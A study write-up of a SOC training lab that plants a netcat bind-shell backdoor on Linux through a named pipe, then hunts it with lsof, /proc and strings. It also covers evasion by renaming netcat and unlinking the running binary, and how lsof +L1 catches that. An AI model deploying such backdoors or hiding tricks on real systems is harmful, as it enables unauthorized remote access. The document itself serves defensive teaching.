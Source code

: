 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-linux-cli/","noteIcon":""}
---
```


The Lab - [IntroClass/LinuxCLI](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
Section Notes - [[Webinars and Training/BlackHills SOC Core/Topics/SOCC02 - Linux\|SOCC02 - Linux]]
## Linux Lab
In this lab, we're investigating [[Definitions and Topics/backdoor\|backdoors]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system. In this write-up, I'm going to separate the commands into three different shell sessions; *Server*, *Adversary*, and *Analyst*, 
1. Configure the "server" to listen for commands from the "client" machine
	1. *Server* terminal^[In the real world, these commands would likely be executed in a malware's payload]
		2. Open a Ubuntu shell and log in as Super User
			1. `sudo su -`
		3. Create a FIFO (first in, first out) [[Tool Deep-Dives/Linux/Named Pipe\|backpipe]]
			1. `mknod backpipe p`
				1. [mknod](https://man7.org/linux/man-pages/man2/mknod.2.html) Creates a named pipe called `backpipe`
		4. Start the backpipe
			1. `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
				1. Basically creates a netcat listener that forwards all input through a backpipe and then into a bash session, and then passes the output back to the listener ([MITM](https://ccnadefinitions.com/ccna/20-definitions/mitm-on-path/))?
					1. `0` - standard input
					2. `1` - standard output
					3. `2` - error
				2. `nc` = netcat
					1. `-l 2222` = listen on port *2222*
				3. For the backpipe, don't forget that *0* **<** *backpipe*, and *1* **>** *backpipe*
					1. Where a *pipe* is monodirectional, a [[Tool Deep-Dives/Linux/Named Pipe\|Named Pipe]] can move data in any direction want
						1. netcat to backpipe, backpipe to bash, bash to netcat, etc...
						2. infinite loop
		5. At this point, the shell is chilling; the command, running. We need to send it some commands.
	2. *Adversary* terminal
		1. Get your IP address and establish a connection to the *Server*
			1. `ip a`
			2. `nc <your IP address> 2222`
		2. If you connect correctly, it's going to look like it's chilling too; but let's type some commands
			1. `ls`
			2. `whoami`
			3. ![BHIS-SOCC-lab-LinuxCLI.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI.png)
				1. **NOTE**: In this go-through, I changed the backpipe name to `5FTP` to see how it looked, and I hate it.
		3. At this point, we have demonstrated that we have established [[Definitions and Topics/Remote Shell\|Remote Shell]], and are ready to start looking for clues
2. Investigate from the *Analyst* terminal
	1. In the [lab](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md), they suggest logging in as Root; this is generally a bad idea in the real world (like logging in as domain admin), and we should be able to accomplish most commands just running them with `sudo`.
	2. Look for network connection processes
		1. [[Tool Deep-Dives/Linux/lsof\|lsof]] 
		2. `sudo lsof -i -P`
			1. `-i` is internet connections
			2. `-P` port number only (don't guess the service)
			3. ![BHIS-SOCC-lab-LinuxCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-1.png)
		3. This shows us the services that look strange; we can dig into a specific process with lowercase `-p`
			1. `lsof -p [process ID]`
				1. In my case, `sudo lsof -p 372`
			2. Shows everything associated with that particular PID
			3. ![BHIS-SOCC-lab-LinuxCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-2.png)
	4. Investigate the process files
		2. `cd /proc/[pid]`
		3. `ls`
			1. Everything associated with the memory of the executable *as it resides in memory*
		5. `strings ./exe | less`
			1. Prints out everything that's actively running *in memory*, and we can find netcat below
				1. ![BHIS-SOCC-lab-LinuxCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-5.png)
			2. If there's a program with a manual page, you can scroll through and find it with strings/less

 This is where the lab ends in the GitHub repo, but Mr. Strand had a few more tricks to share.
 
### Other ways to avoid detection
1. Rename netcat to anything else
	1. Note, here we used the [[Tool Deep-Dives/Linux/which\|which]] command to quickly locate the [[Tool Deep-Dives/Netcat\|Netcat]] application file.
	2. ![BHIS-SOCC-lab-LinuxCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-8.png)
		1. I also took the opportunity to create a new backpipe name, `logfile`, which is still suspicious but not the same as `backpipe`, and renamed [[Tool Deep-Dives/Netcat\|Netcat]] to `netlog`
	3. And now look! A happy little `netlog` has an open connection to the internet, and it's just writing to a `logfile`!
		1. ![BHIS-SOCC-lab-LinuxCLI-9.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-9.png)
		2. ![BHIS-SOCC-lab-LinuxCLI-10.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-10.png)
		3. However, if we run `strings ./exe | less` on it, we still find netcat
			1. ![BHIS-SOCC-lab-LinuxCLI-11.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-11.png)
2. Hiding the file on the system
	1. You could use a . to hide it (`.notevil`), but it's crazier to unlink it (i.e. program running in memory disconnected from program in storage)
		1. e.g., the program in storage was deleted
		2. If you delete the file (`rm notevil`) *while it's running*, it will continue to run *in memory*
	4. How to detect?
		1. `lsof +L1`
			1. Shows all system files running without any links^[It also still shows up in regular `lsof -i -P`, but this just highlights anything that is trying to hide and wouldn't be found in traditional file scans.]
			2. ![BHIS-SOCC-lab-LinuxCLI-12.png](/img/user/Attachments/BHIS-SOCC-lab-LinuxCLI-12.png)
		2. Once detected, you can `kill` or `pkill` to end the unlinked process, and kill its access
